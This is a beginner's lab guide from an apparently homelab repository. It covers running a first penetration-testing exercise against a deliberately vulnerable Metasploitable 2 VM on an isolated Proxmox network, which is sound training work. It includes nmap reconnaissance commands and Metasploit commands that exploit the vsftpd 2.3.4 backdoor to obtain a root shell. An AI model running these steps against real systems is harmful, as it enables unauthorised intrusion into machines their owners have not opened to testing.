

<sub>[← Back to README](../README.md) · Related: [pfSense firewall](../pfsense/pfsense_setup.md) · [Infrastructure-as-Code](../infra/README.md)</sub>

# Lab Guide — Your First Attacker-vs-Target Exercise

A beginner-followable walkthrough for running a first penetration-testing
exercise **safely** inside the isolated lab network (`vmbr1`). If you've never
done this before, you can follow it top to bottom.

> [!CAUTION]
> **Only ever do this against machines you own, on the isolated lab network.**
> The whole reason we built pfSense and the isolated `vmbr1` bridge is so this
> activity stays sealed off from your home network and the internet-at-large.
> Attacking systems you don't own is illegal. This lab keeps you on the right
> side of that line — keep it that way.

---

## What you'll build

Two VMs on the isolated bridge `vmbr1`:

| Role | Machine | Why |
| --- | --- | --- |
| **Attacker** | Kali Linux | Ships with the offensive tooling (nmap, Metasploit) |
| **Target** | Metasploitable 2 | A deliberately-vulnerable Linux box, made for practice |

Both get a `10.10.10.x` address from pfSense DHCP. They can reach the internet
(to pull updates) but **cannot** reach your home network — you'll verify that
before doing anything else.



---

## Prerequisites

- ✅ [pfSense installed and configured](../pfsense/pfsense_setup.md), with the LAN on
  `vmbr1`, DHCP enabled, and the `LAN → 10.0.0.0/24` block rule in place.
- ✅ The isolated bridge `vmbr1` exists ([`scripts/create-vmbr1.sh`](../scripts/create-vmbr1.sh)).

---

## Step 1 — Get the images

Download onto your workstation, then upload to Proxmox local storage
(see [Upload ISO Images](../proxmox/proxmox_setup.md#5-upload-iso-images)):

- **Kali Linux** — the "Installer" ISO from <https://www.kali.org/get-kali/>
- **Metasploitable 2** — from <https://sourceforge.net/projects/metasploitable/>
  (it's a ready-to-run VM image, not an installer)

## Step 2 — Create the two VMs on `vmbr1`

Either click through the Proxmox "Create VM" wizard (attach the NIC to **`vmbr1`**),
or let the [Terraform stack](../infra/README.md) do it:

```bash
cd infra/terraform
cp terraform.tfvars.example terraform.tfvars   # set your token + ISO names
terraform init && terraform plan               # review
terraform apply                                # creates kali + target on vmbr1
```

The only thing that matters for isolation: **each VM's network device is on
`vmbr1`** and nothing else.

## Step 3 — Verify isolation FIRST (do not skip)

Boot the Kali VM, open a terminal, and confirm the containment before you attack
anything:

```bash
ip a                     # you should have a 10.10.10.x address from pfSense
ping -c2 8.8.8.8         # internet: should SUCCEED
ping -c2 10.0.0.1        # home router: should FAIL (100% packet loss)
```

If `10.0.0.1` is reachable, **stop** — your isolation is broken. Recheck the
pfSense `LAN → 10.0.0.0/24` block rule in [the firewall doc](../pfsense/pfsense_setup.md#6-firewall-and-isolation-rules).
(The [Ansible baseline](../infra/README.md) automates this exact check and fails
loudly if it's wrong.)

## Step 4 — Reconnaissance (find the target)

From Kali, discover what's on the lab network and what the target is running:

```bash
# Find live hosts on the lab subnet
nmap -sn 10.10.10.0/24

# Scan the target's services + versions (swap in its real IP)
nmap -sV 10.10.10.102
```

You'll see a long list of open ports — Metasploitable is *supposed* to be wide
open. Note the line for port **21/tcp — vsftpd 2.3.4**. That version has a famous
backdoor, and it's a perfect first exploit.

## Step 5 — Your first exploit

Metasploitable's `vsftpd 2.3.4` shipped with a backdoor that opens a root shell.
Use the Metasploit Framework (preinstalled on Kali):

```bash
msfconsole -q
```

Then, inside msfconsole:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.102
run
```

If it works, you land in a shell on the target. Confirm who you are:

```text
id        # uid=0(root) — you have root on the target
uname -a  # confirm it's the Metasploitable box
```

That's the whole loop: **recon → identify a vulnerable service → exploit → access.**

## Step 6 — What just happened (and clean up)

You scanned a host, spotted a known-vulnerable service by its version banner, and
used a matching exploit to get a root shell — all inside a network that can't
touch anything you care about. That's the core of hands-on penetration testing.

- **Snapshot** the target VM in Proxmox *before* exercises so you can revert to a
  clean state in seconds afterward.
- Keep notes on what you found — that write-up habit is exactly what the rest of
  this repo is built around.

---

## Where to go next

- Try other Metasploitable services (Samba, UnrealIRCd, distcc) and web apps (DVWA).
- Add a Windows target for a different attack surface.
- [VLAN-segment the lab](../ROADMAP.md) into attacker and victim networks.
- [Route your WireGuard tunnel into the lab](../ROADMAP.md) so you can run these
  exercises from anywhere — the payoff step that fuses both halves of this homelab.
